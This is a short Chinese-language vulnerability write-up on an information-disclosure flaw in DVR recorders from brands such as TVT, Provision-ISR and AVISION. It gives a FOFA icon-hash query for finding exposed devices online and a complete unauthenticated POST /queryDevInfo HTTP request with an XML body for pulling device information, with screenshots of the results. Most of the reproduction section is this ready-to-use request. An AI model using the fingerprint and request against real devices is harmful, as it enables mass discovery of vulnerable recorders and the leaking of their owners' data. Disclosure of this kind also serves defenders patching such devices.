 # DVR设备存在敏感信息泄露

# 一、漏洞简介
DVR（数字视频录像机）设备中，包括 TVT、Provision-ISR、AVISION 等品牌的机型。DVR设备存在敏感信息泄露

# 二、影响版本
+ DVR

# 三、资产测绘
+ fofa`icon_hash="492290497"`
+ 特征

![1727149378553-971d331b-6e62-4b21-ab6e-c4b8e03f3a3e.png](./img/gVa4We2SG_G-RXJD/1727149378553-971d331b-6e62-4b21-ab6e-c4b8e03f3a3e-936281.png)

# 四 、漏洞复现
```java
POST /queryDevInfo HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Language: en-US,en;q=0.9
Accept-Encoding": gzip, deflate
Accept: */*
Connection: keep-alive

<?xml version="1.0" encoding="utf-8" ?><request version="1.0" systemType="NVMS-9000" clientType="WEB"/>
```

![1727149406676-6a2a733e-7d04-4505-b9d1-dd1b57cd3a6b.png](./img/gVa4We2SG_G-RXJD/1727149406676-6a2a733e-7d04-4505-b9d1-dd1b57cd3a6b-731482.png)



> 更新: 2024-10-22 09:40:53  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/og9o95nb4rdos806>